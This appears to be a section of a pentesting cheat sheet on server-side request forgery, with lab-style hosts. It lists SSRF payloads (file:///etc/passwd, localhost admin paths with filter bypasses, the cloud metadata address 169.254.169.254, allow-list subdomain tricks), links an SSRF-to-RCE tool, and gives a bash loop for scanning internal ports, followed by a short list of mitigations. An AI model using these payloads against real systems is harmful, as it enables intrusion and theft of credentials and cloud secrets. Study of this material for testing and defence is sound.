 ```bash
# Convert IP to hex or decimal format
https://gist.github.com/mzfr/fd9959bea8e7965d851871d09374bb72

# Reading files
file:///etc/passwd

# In case there is a path to append and other parameters we have to break
127.0.0.1/admin&id=435
127.0.0.1/admin#&id=435
127.0.0.1/admin%23&id=435

# Cloud environment
169.254.169.254
registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254

If allow list begins with https://website.thm, An  attacker could create a subdomain  https://website.thm.attackers-domain.thm

OPEN REDIRECT
```
{% endcode %}

## SSRF to RCE

[https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)

## Check open ports on localhost

{% code overflow="wrap" fullWidth="true" %}
```bash
for x in {1..65535}; do cmd=$(curl -so /dev/null http://MACHINE_IP:8000/attack?url=http://2130706433:${x} \
        -w '%{size_download}'); 
        
        if [ $cmd != 1045 ]; then 
                echo "Open port: $x" 
        fi
done
```
{% endcode %}

## Mitigation

To prevent SSRF exploitation, the following mitigations are suggested:

* Employing strict input validation and sanitisation to prevent malicious input.
* Using allow lists to control which domains and IPs the application can access.
* Applying network segmentation to restrict requests to authorised resources.
* Following the principle of least privilege, granting the minimum permissions required for system operations.
* **Implement security headers**, such as Content-Security-Policy, that restricts the application's load of external resources.
